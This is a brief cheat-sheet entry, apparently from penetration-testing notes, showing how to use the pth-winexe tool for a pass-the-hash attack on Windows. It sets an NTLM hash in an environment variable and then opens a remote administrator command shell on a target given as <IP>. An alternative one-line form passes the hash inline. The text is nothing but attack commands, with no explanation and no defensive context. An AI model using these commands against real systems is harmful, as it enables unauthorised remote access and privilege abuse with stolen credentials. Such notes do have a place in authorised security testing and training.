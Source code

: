 ## pth-winexe

`export SMBHASH=aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896`

`pth-winexe -U administrator% //<IP> cmd`

or

`pth-winexe -U administrator%aad3b435b51404eeaad3b435b51404ee:6F403D3166024568403A94C3A6561896 //<IP> cmd`

